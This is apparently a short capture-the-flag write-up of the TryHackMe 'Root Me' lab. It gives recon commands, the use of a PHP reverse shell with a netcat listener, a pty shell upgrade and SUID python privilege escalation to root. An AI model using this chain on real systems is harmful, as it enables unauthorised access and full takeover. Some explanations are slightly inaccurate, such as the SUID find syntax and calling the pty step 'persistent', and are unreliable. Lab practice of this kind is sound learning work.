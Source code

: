 # Root Me TryHackMe

## 2024-01-02, Joakim Oscarsson

## Problem description

### Recon

nmap -sV -oN "output_nmap.txt" 10.10.207.97
22 ssh
80 http

gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.10.207.97
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.207.97/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.207.97/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.207.97/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.207.97/uploads/]
Progress: 20469 / 20470 (100.00%)

Using the reverse shell found in /usr/share/webshells/php/php-reverse-shell.php and changing the IP and PORT number.

To connect to the reverse shell we use netcat and the command 
nc -nlvp <portnumber>

then when we are inside a shell, we can make it persistent with
python -c 'import pty; pty.spawn("/bin/bash")'

to find the path to the flag we use this command:
find / -type f -name user.txt 2>/dev/null
which starts from / then looks for regular files with the name user.txt (indicated by task) then if we get the stderr (2) we redirect the message to /dev/null to discard them

SUID files are files that run with the priviledges of the creator of the file instead of the one executing the file.

To find the files with SUID set we run
find / -perm 4000 2> /dev/null

Here we find that python has SUID set and thus we can use gtfobins to escalate privaleges.

we use the command
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

then we can enter the root directory

